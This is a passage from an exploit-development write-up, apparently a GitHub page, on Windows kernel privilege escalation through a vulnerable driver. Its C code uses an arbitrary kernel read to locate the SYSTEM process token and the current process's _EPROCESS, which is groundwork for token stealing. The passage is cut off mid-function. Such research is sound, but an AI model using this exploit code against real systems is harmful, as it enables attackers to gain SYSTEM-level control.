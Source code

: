 ```c
    // Load kernel in to user land and get the PsInitialSystemProcess address
    HMODULE hKernel = LoadLibraryA(NTOSKRNL_EXE);
    HANDLE psInitialProcess = GetProcAddress(hKernel, "PsInitialSystemProcess");

    QWORD psOffset = (QWORD)psInitialProcess - (QWORD)hKernel;
    QWORD psAddress = (QWORD)kernelBase + (QWORD)psOffset;

    QWORD dereferencedSystemEprocessAddress;
    ArbitraryRead(hDevice, psAddress, (QWORD)&dereferencedSystemEprocessAddress);
    printf("[+] SYSTEM _EPROCESS address: 0x%p\n", dereferencedSystemEprocessAddress);

    QWORD systemTokenAddress = dereferencedSystemEprocessAddress + TOKEN_OFFSET;
    FreeLibrary(hKernel);

    return systemTokenAddress;
    }
}
```

I loaded the kernel image on line `4` and located the address of `PsInitialSystemProcess`. I was able to take this address and work out the offset based upon the address that the module was loaded at (lines `7-8`).

I then used the arbitrary read primitive to get the actual address of the `SYSTEM` `_EPROCESS` by dereferencing the `PsInitialSystemProcess` address. I learned this new technique during my research (lines `10-12`).

I used a token offset for the target operating system to locate the address of the `SYSTEM` token on line `14`.

> [!TIP]
>
> The `_EPROCESS` structure can be examined using the `dt nt!_EPROCESS <address>` command in **WinDbg** to find the offset of various fields, including the security token.

## Current Security Token

The `_EPROCESS` structure contains a field called `ActiveProcessLinks`; this is a doubly linked list to all the processes running (their `_EPROCESS` objects that is):

```c
QWORD GetCurrentTokenAddress(QWORD SystemProcessAddress, HANDLE hDevice)
{
    QWORD processAddress = SystemProcessAddress;
    QWORD processLinkAddress;
    QWORD processId;
    DWORD currentProcessId = GetCurrentProcessId();

    while(TRUE)
    {
        ArbitraryRead(hDevice, processAddress + ACTIVE_PROCESS_LINKS_OFFSET, (QWORD)&processLinkAddress);

        ArbitraryRead(hDevice, processLinkAddress - ACTIVE_PROCESS_LINKS_OFFSET + UNIQUE_PROCESS_ID_OFFSET, (QWORD)&processId);

        processAddress = processLinkAddress - ACTIVE_PROCESS_LINKS_OFFSET;

        if ((DWORD)processId == currentProcessId)
        {
            break;
        }
    }

    printf("[+] Current _EPROCESS address: 0x%p\n", processAddress);
```

[RP++]: https://github.com/0vercl0k/rp	"A fast ROP gadget finder"
[Notepad++]: https://notepad-plus-plus.org/downloads/	"Downloads"
[Plackyhacker]: https://github.com/plackyhacker/misc-scripts/blob/main/awe-prep/reaper-priv-esc.c	"Reaper Driver Priv Esc Code"
[Vergilius Project]: https://www.vergiliusproject.com/kernels/x64/windows-10/22h2	"22H2 (2022 Update, Vibranium R5)"